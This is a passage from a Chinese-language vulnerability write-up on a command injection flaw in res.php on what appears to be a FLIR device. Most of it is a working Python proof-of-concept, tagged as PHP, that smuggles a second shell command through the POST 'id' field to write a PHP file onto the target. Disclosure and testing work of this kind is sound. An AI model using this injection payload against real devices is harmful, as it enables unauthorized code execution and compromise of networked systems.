 在 www 目录下 res.php 程序接收 POST 方法请求，若存在 alarm 参数，并且提供一个 id 参数，程序会将 id 的值与 LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls .image.sysimg.alarms.measfunc. 拼接执行，若 id 包含命令截断符，会造成命令注入。

![image-20221203213742216](.assets/image-20221203213742216.png)

# 三、漏洞利用&POC

POC：

```php
import requests
import sys
import urllib3
# disable https not verify warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def verify(url):
    try:
        page = "res.php"
        target_url = url + "/" + page
        
        headers = {
            'Host': url.strip("http://").strip("https://"),
            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8',
        }
        
        data = {
            'action':'alarm',
            'id': "1; echo '<?php phpinfo(); ?>' > temp.php",
        }
        
        response = requests.post(target_url,
                                 verify=False,
                                 data=data,
                                 headers=headers)

        print(response.text)
    except Exception as e:
        print(e)
            
if __name__ == '__main__':
    url = 'x.x.x.x'
    verify(url=url)
```
